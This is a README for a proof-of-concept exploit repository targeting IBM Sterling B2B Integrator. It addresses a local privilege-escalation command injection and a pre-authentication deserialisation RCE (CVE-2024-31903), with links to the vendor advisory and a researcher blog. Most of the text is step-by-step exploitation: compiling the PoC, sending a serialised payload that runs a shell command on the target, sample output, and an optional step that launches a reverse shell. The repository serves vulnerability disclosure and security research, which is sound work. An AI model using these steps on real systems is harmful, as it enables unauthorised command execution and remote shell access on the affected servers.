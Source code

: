 # IBM Sterling B2B Integrator PoC

Proof of concept code for the exploitation of the vulnerabilities discovered against IBM Sterling B2B Integrator, versions 6.2.0.0 to 6.2.0.2, and 6.0.0.0 to 6.1.2.5 for Linux, Windows and AIX systems:

- LPE Command Injection - if authentication is disabled
- Pre-auth Deserialisation RCE - assigned CVE-2024-31903, see the relevant IBM advisory here: https://www.ibm.com/support/pages/node/7172233 
 
More details about these issues can be found in the accompanying blog post: 
https://labs.withsecure.com/advisories/ibm-b2b-integrator


## Repo Structure

Most of this code in this repo refers to the LPE command injection attack.
The Python binary client `bin_clien.py` can be used to send messages manually to CLA2, allowing exploitation of the deserialisation RCE vulnerability. 


## Usage

```bash
$ java Main
$ Usage: Main <cmdLine> <outfile_or_SEND>
```

The PoC accepts two parameters:
- The shell command to be executed by the target CLA2 client
- A path to write the serialised Java message, or "SEND" to send it immediately to 127.0.0.1:5052, where CLA2 client is listening on


## Instructions 

The source code included in this repository is deliberately incomplete, as certain classes from the CLA2 susbystem are required. Depending on filesystem permissions of the installation directory, you might be able to access the JAR files 

Assuming you have retrieved the relevant files from the JAR decompilation. Will not be uplaoded here as they constitute IBM IP

1. Decompile `CLA2Client.jar` and `CLA2Server.jar` 

1. In the decompiled code, locate files `CmdLine2Result.java` and `CmdLine2Parms.java` 

1. Copy and paste them into same directory as `Main.java` (`/src/com/sterlingcommerce/woodstock/services/cmdline2/Main.java`) to replicate the directory structure of the original application's java package

1. Compile the PoC program - ideally using the JDK packaged by the application 

```bash
${B2BHOME}/INSTALL/jdk/bin/javac src/com/sterlingcommerce/woodstock/services/cmdline2/*.java
```

1.	Execute it - again, using the JDK packaged by the application if possible

```bash
${B2BHOME}/INSTALL/jdk/bin/java -classpath src/ com.sterlingcommerce.woodstock.services.cmdline2.Main '/bin/sh -c "id > /tmp/withsecureresult"' SEND  
[+] Creating object...  
[+] Sending object...  
[+] ...Sent!  
[+] Receiving header...  
[+] ...header received:  
RESULT  
[+] Receiving result...  
[+] Result received:  
##[DEBUG]## CmdLine2Result:  
fileSize=0  
outputNameLong=null  
outputNameShort=null  
******* end of CmdLine2Result *******  
```

1.	(Optional) To obtain a fully interactive shell, upload the `revshell.py` and `revshell_listener.py` scripts onto the target system, and start the listener. Then, replace the PoC's command parameter with an invocation of the reverse shell script as below:   

```bash 
${B2BHOME}/INSTALL/jdk/bin/java -classpath src/ com.sterlingcommerce.woodstock.services.cmdline2.Main 'python3 /tmp/revshell.py' SEND
```

